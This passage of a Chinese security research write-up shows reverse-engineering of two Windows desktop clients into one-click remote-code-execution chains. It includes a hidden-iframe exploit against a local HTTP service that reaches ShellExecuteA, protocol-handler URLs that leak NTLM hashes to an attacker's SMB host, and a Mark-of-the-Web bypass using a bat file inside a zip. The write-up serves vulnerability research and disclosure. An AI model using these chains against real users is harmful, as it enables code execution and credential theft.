具体的逻辑可以下图，我们找到赋值关系最终确认一切的参数来源都是`Block`，该值是一个全局变量，那么根据当前的环境我们就可以猜测此处的来源就是HTTP请求参数。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/16680711304718.jpg)

根据猜测，我们可以先使用OD附加进程在`ShellExecuteA`函数处下断点。

然后请求URL：`http://127.0.0.1:38230/api_install?file=cmd.exe&param=/k%20notepad`，我们就会在OD界面中看见端点到`ShellExecuteA`函数了，我们可以通过栈来看一下传参是什么。

如下所示我们发现`ShellExecuteA`函数的参数`FileName`和`Parameters`是一串乱码的内容，这应该是我们输入的字符串经过了某些处理后导致的。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/16681317190938.jpg)

因此我们可以在URI`/api_install`对应处理的函数起始位置下断点一步一步跟进看一下我们请求的参数值是否真的带进来了，如果带进来了为什么最终值会变成一段乱码的数据。

如下图OD中可以看见我们的请求参数`file`的值`cmd.exe`确实可以带进来，这也就验证了我们的猜想，`ShellExecuteA`函数的参数是来源于HTTP请求参数。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/16681356708499.jpg)

接着走下去我们会发现调用如下函数时的参数就是我们的请求参数`file`和对应值`cmd.exe`，当该函数执行完成之后返回到EAX寄存器，我们跟进EAX寄存器的地址查看数据就会发现数据为乱码内容，也就是我们在`ShellExecuteA`函数断点处看见的参数。

```asm
push esi
push eax
call UserClie.004203B0
```

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/16681358274356.jpg)

所以我们可以跟进函数`004203B0`在IDA中看一下它具体做了什么，这样我们才能构造请求让真正的字符串带入到`ShellExecuteA`函数中执行。

在这之前我们需要注意，由于IDA和实际进程执行的基址不同，我们可以在OD中找到进程基址然后将IDA对应的基址修改为进程的，这样我们就可以直接跟进函数`004203B0`，而不需要再去进行地址的换算。

在IDA中跟进函数`004203B0`，它实际上也是调用的另外一个函数`00370C70`，在该函数里对字符串进行位移转换，猜测可能是自定义的解码方式。但是在它进行遍历的过程中使用到了一段数组数据`word_74E940`，我们跟进这个数据之后发现似乎是一张解码表。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/16681457115844.jpg)

如下将整段数据罗列出来，看着与Base64解码所需要的解码表是一致的，所以此处极有可能就是Base64解码操作，将我们的输入的字符串`cmd.exe`进行解码，最终就变成了乱码。

我们可以将`cmd.exe`字符串进行Base64解码，发现结果确实为我们之前所看到的乱码内容：

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/16681461174700.jpg)

最终我们也就确定了这里的请求参数值是需要先进行Base64编码之后再带入请求的。因此我们可以构建出如下Exploit，当安装了该客户端的应用打开Exp代码对应页面时，即可以执行我们想要的命令。

```html
<iframe src="http://127.0.0.1:38230/api_install?file=Y21kLmV4ZQ==&param=L2sgbm90ZXBhZA==" width="0px" height="0px">
```

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028770589143.jpg)

##### 某视频软件客户端

通过URLProtocolView找到视频软件客户端注册的伪协议：`xxplayer://`，通过字符串定位程序伪协议的处理功能点，也可以知道有哪些的伪协议路由。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028774570110.jpg)

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028774924444.jpg)

发现这里可以通过`xxplayer://action.cmd/xxx`的方式来触发一些功能，所有功能列表如下所示：

```plaintext
xxplayer://action.cmd/playShareVideo
xxplayer://action.cmd/play
xxplayer://action.cmd/downloadvideo
xxplayer://action.cmd/downloadpage
xxplayer://action.cmd/downloadShareVideo
xxplayer://action.cmd/createshortcut_url
xxplayer://action.cmd/createshortcut
xxplayer://action.cmd/activeHomepage
```

根据字面意思理解它的作用即可，这里我们一个一个带入请求尝试，发现当请求`createshortcut_url`时会在桌面创建`.link`的快捷方式文件。

我们跟进这个创建快捷方式的逻辑，发现实际上它还有两个参数：`url`、`name`：

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/16756111480279.jpg)

然后将这两个参数值带入`CreateUrlShortcut`函数执行，这个函数是导入函数，就是用于创建桌面快捷方式的。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/16756112003388.jpg)

因此我们可以构建伪协议URL：`xxplayer://action.cmd/createshortcut_url?url=http://www.baidu.com&name=Test`，访问就发现它创建了一个名为`Test`的快捷方式，目标为：`C:\xxplayer.exe \UrlQuickLunch=http://www.baidu.com,0`，也就表示我们传入的`url`参数值变成了启动参数，`name`参数值变成了快捷方式名字。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028772674438.jpg)

当我们双击这个快捷方式时，就会调用浏览器打开`http://www.baidu.com`。

接着我们发现只要`url`参数值为`xxx://xxx.xxx/`的格式即可，那么我们尝试将`url`参数值修改为`file://172.16.176.176/netntlm`，也就变成这样：`xxplayer://action.cmd/createshortcut_url?url=file://172.16.176.176/netntlm&name=123`，在机器上`responder`监听一下，当打开快捷方式时收到了NTLM Hash：

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/16756130536051.jpg)

除了获取NTLM Hash，我们还可以在Ubuntu上开一个SMB服务，然后将`url`参数设为使用`\\172.16.176.176\share\Test.exe`，使用快捷方式打开共享文件，发现确实可以打开EXE文件，但是会有文件信任的安全警告（Mark-of-the-Web）。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/16756160973381.jpg)

这里可以通过`jar`文件形式去绕过，打包一个打开计算器的Jar包放在共享目录下，然后将`url`参数设为使用`\\172.16.176.176\share\1.jar`。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/16756162884409.jpg)

访问`xxplayer://action.cmd/createshortcut_url?url=\\172.16.176.225\share\1.jar&name=123`，创建快捷方式，打开快捷方式，执行Jar包启动计算器，这样我们就实现了1 Click执行任意命令。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028772455266.jpg)

使用远程Jar包的方式来达到任意命令执行还是有局限性，如果目标机器不存在Java环境就无法执行，因此在对文件信任机制的研究发现在`smb`共享文件中打开`zip`压缩包内的`bat`文件，不会有任何弹窗提示直接执行`bat`文件内容。

因此我们可以在共享文件夹中创建`1.zip`，放入内容为`calc`的`1.bat`文件。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/16756704688552.jpg)

将`url`参数值设为`\\172.16.176.225\share\1.zip\1.bat`，然后访问`xxplayer://action.cmd/createshortcut_url?url=\\172.16.176.225\share\1.zip\1.bat&name=123`创建桌面快捷方式，打开快捷方式即可执行`bat`文件，最终达到不需要任何依赖的情况下执行任意命令。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028772348064.jpg)

## 总结

简单总结一下以上两类客户端的攻击入口、RCE风险和影响面。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028779762348.jpg)

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028780061810.jpg)

关于客户端本地开启的网络协议问题，我总结出如下几步可以快速的进行漏洞发现:

1.  找到客户端启动的本地网络服务（TCP、UDP），这个可以用火绒剑或者CMD的方式查看；
2.  有本地监听的情况下，找到对应的程序以及加载的DLL，通过IDA根据端口号找到监听的点，如果是C/C++的程序一般找bind这个函数就能快速定位到；
3.  向上回溯找调用链，并根据网络服务的返回结果，例如HTTP访问会有一段字符串或者响应头的一些字符串，定位到代码处理逻辑；
4.  如果逻辑对应上了，那就接着找程序的导入表是否存在敏感的函数，例如：CreateProcess、WinExec、ShellExec，如果存在则可以向上回溯看看是否与网络服务监听点有联系；
5.  当条件都满足的时候就想尽办法，通过断点调试等操作，找传参或数据传输格式，看看可控内容是否可达敏感的函数处；
6.  根据代码逻辑构造PoC触发漏洞，并尝试武器化利用。

## 致谢

在文章的最后，我要感谢公司部门领导和同事对本议题的贡献和帮助（以下排名不分先后），感谢字节跳动安全中心对于本次沙龙的筹办和策划。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028782795487.jpg)
